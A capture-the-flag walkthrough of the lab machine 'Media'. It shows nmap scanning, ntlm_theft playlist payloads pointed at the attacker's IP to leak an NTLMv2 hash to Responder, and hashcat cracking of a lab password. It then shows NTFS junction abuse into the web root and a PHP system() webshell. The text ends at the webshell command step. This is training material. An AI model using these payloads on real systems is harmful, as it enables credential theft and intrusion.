# HTB - Media

**IP Address:** `10.129.234.67`  
**OS:** `Windows Server 2022 (10.0.20348) — MEDIA`  
**Difficulty:** `Medium`  
**Tags:** #Windows #NTLM #Responder #XAMPP #NTFSJunction #SeTcbPrivilege #SSH

---
## Synopsis

Media is a medium Windows host running Apache/XAMPP and a ProMotion Studio hiring form that accepts Windows Media Player–compatible uploads. Uploading a malicious `.asx` playlist causes the review worker to authenticate outbound over SMB, leaking `MEDIA\enox`’s NetNTLMv2 hash to Responder. Cracking the hash yields SSH as `enox` and the user flag. Source review shows uploads land under `C:\Windows\Tasks\Uploads\<md5(firstname+lastname+email)>\`. Creating an NTFS junction from a predictable unused hash path to `C:\xampp\htdocs` turns a PHP webshell upload into RCE as `NT AUTHORITY\LOCAL SERVICE`. That account holds `SeTcbPrivilege`; `TcbElevation-x64.exe` adds `enox` to Administrators, and a new SSH session reads the root flag.

---
## Skills Required

- Basic web enumeration and file-upload testing
- Capturing and cracking NetNTLMv2 hashes
- Windows filesystem / privilege enumeration after SSH

## Skills Learned

- Weaponizing WMP playlist formats (`.asx`) for outbound NTLM auth
- Predicting upload paths and abusing NTFS directory junctions into a web root
- Elevating via `SeTcbPrivilege` to grant local admin

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.234.67
```



TTL `127` is consistent with Windows.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.234.67 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



Open ports: `22`, `80`, `3389`.

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p22,80,3389 10.129.234.67 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 22 | OpenSSH for_Windows_9.5 | Remote shell once credentials exist |
| 80 | Apache httpd 2.4.56 (Win64) + PHP/8.1.17 | Title: **ProMotion Studio** |
| 3389 | RDP | Hostname `MEDIA`, product version `10.0.20348` (Server 2022) |

---
## 2. Service Enumeration

### 2.1 HTTP fingerprint and site surface

Fingerprint the web stack, then browse the application:

```bash
whatweb http://10.129.234.67
```




The site exposes a team/workers section and a hiring upload that asks for a brief introduction video **compatible with Windows Media Player**:


### 2.2 Windows Media Player / NTLM theft research

Search for WMP-related hash-leak techniques and generate payloads with `ntlm_theft` aimed at the attacker IP (`10.10.15.14`):

```bash
python3 ntlm_theft.py -g all -s 10.10.15.14 -f media
```




Among the generated files, `.asx` / `.wax` / `.m3u` are intended for Windows Media Player.

---
## 3. Foothold

### 3.1 Capture NetNTLMv2 with Responder + `.asx` upload

Start Responder on `tun0`, then upload `media.asx` through the hiring form so the review worker opens it in WMP:

```bash
sudo responder -I tun0
```




After a short wait, Responder captures NTLMv2-SSP for `MEDIA\enox`:



### 3.2 Crack the hash and SSH as `enox`

Crack the NetNTLMv2 hash (hashcat mode `5600`) with rockyou:

```bash
nano ntlm_hash.txt
hashcat -a 0 ntlm_hash.txt /usr/share/wordlists/rockyou.txt
```



Recovered: `enox` / `1234virus@`. SSH in and read the user flag:

```bash
ssh enox@10.129.234.67
```

```cmd
whoami
type Desktop\user.txt
```



🏁 **User flag obtained**: `4a469a39fb9c14cb527810327c00b6cb`

`whoami /all` shows only low-value privileges; `C:\Users` has `Administrator` and `enox`, and `ipconfig` confirms the expected HTB address:




### 3.3 Understand the upload worker (`review.ps1`)

In `C:\Users\enox\Documents`, `review.ps1` loops on `C:\Windows\Tasks\Uploads\todo.txt`, then opens the listed file with `wmplayer.exe` under `C:\Windows\Tasks\uploads\<RandomVariable>\<FileName>`:

```cmd
type Documents\review.ps1
```



That matches the web upload path used for the `.asx` hash leak.

---
## 4. Privilege Escalation

### 4.1 XAMPP source and predictable upload MD5

Enumerate `C:\xampp` (including `passwords.txt`) and the web app source under `htdocs`:

```cmd
dir C:\xampp
type C:\xampp\passwords.txt
```






Upload folders under `C:\Windows\Tasks\Uploads` are named with the MD5 of `firstname + lastname + email` (no separators). Submitting `test` / `test` / `test@test.com` creates `44b85c98e94039c8a0a015f6d3a3449e`:

```bash
echo -n "testtesttest@test.com" | md5sum
```




### 4.2 NTFS junction into `htdocs` + PHP webshell

Creating a junction over the already-existing `test` hash fails. Use the example form values `test1` / `test1` / `test@test.com` (`md5` → `6331bca0bdcbd440e7c10921d694bfd4`) so the path does not exist yet, then junction it to the Apache document root:

```cmd
cmd /c mklink /J C:\Windows\Tasks\Uploads\44b85c98e94039c8a0a015f6d3a3449e C:\xampp\htdocs
cmd /c mklink /J C:\Windows\Tasks\Uploads\6331bca0bdcbd440e7c10921d694bfd4 C:\xampp\htdocs
```




Prepare a one-liner webshell and upload it with the same `test1` / `test1` / `test@test.com` fields:

```php
<?php
system($_GET['cmd']);
?>
```




Confirm the file lands in `C:\xampp\htdocs` and execute commands via the browser:

```text
http://10.129.234.67/webshell.php?cmd=whoami
```

